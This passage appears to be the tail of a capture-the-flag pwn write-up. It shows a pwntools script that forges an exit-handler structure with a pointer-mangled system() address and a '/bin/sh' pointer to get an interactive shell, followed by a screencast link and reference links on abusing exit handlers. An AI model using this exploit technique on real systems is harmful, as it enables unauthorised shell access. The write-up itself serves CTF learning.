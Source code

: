 ```python
# fake struct to call system("/bin/sh") (a's are not related to the struct)
p.sendlineafter(b"data?\n", b"a"*7 + p64(0x00) + p64(0x01) + p64(0x04) + p64(mangle(system, cookie)) + p64(binsh) + p64(0x00))

# this is not important
p.sendlineafter(b"buffer\n", b"echo et pour le desert...")

p.interactive()
```
and live action!

[Screencast from 2025-01-26 22-28-33.webm](https://github.com/user-attachments/assets/3a8f13e5-4160-4d2f-9ee5-52401742aefc)

##### some helpful links

- https://elijahchia.gitbook.io/ctf-blog/advent-of-ctf-2024/help-pwn

- https://ctftime.org/writeup/34804

- [bitwise rotation in python](https://www.falatic.com/index.php/108/python-and-bitwise-rotation)

- https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html


